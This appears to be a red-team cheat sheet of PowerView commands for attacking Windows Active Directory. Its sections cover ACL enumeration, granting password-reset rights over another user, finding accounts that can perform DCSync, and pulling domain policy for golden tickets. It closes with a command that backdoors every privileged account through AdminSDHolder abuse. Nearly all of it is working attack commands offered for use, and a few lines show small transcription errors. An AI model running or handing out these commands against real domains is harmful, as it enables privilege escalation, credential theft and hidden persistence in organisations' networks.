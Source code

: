 ## <a name='T1615ACL'></a>T1615 ACL
```powershell
# list users/groups ACLs
# valuable attributes: IdentityReference, ObjectDN, ActiveDirectoryRights
Get-ObjectAcl -SamAccountName <User>-ResolveGUIDs

```

### <a name='CHANGEPASSWORD'></a>CHANGE PASSWORD
```powershell
# grant user 'will' the rights to change 'matt's password
Add-DomainObjectAcl -TargetIdentity matt -PrincipalIdentity will -Rights ResetPassword -Verbose
```

### <a name='DCSYNC'></a>DCSYNC
```powershell
# AllExtendedRights privilege grants both the DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-DomainObjectAcl "dc=dev,dc=<Domain>,dc=local" -ResolveGUIDs | ? {
    ($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')
}

# retrieve *most* users who can perform DC replication for dev.<Domain>.local (i.e. DCsync)
Get-ObjectACL "DC=<Domain>,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}
```
## <a name='ENUM:DOMAIN'></a>ENUM: DOMAIN

```powershell
Get-NetDomainController

# enumerate the current domain controller policy
$DCPolicy = Get-DomainPolicy -Policy <DC>
$DCPolicy.PrivilegeRights # user privilege rights on the dc...

# enumerate the current domain policy
$DomainPolicy = Get-DomainPolicy -Policy Domain
$DomainPolicy.KerberosPolicy # useful for golden tickets
$DomainPolicy.SystemAccess # password age/etc.
```


## <a name='ENUM:DOMAINPERSISTENCY'></a>ENUM: DOMAIN PERSISTENCY

```powershell
# enumerate who has rights to the 'matt' user in '<Domain>.local', resolving rights GUIDs to names
Get-DomainObjectAcl -Identity matt -ResolveGUIDs -Domain <Domain>

# audit the permissions of AdminSDHolder, resolving GUIDs
Get-DomainObjectAcl -SearchBase 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -ResolveGUIDs

# backdoor the ACLs of all privileged accounts with the 'matt' account through AdminSDHolder abuse
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=<Domain>,DC=local' -PrincipalIdentity matt -Rights All/
```
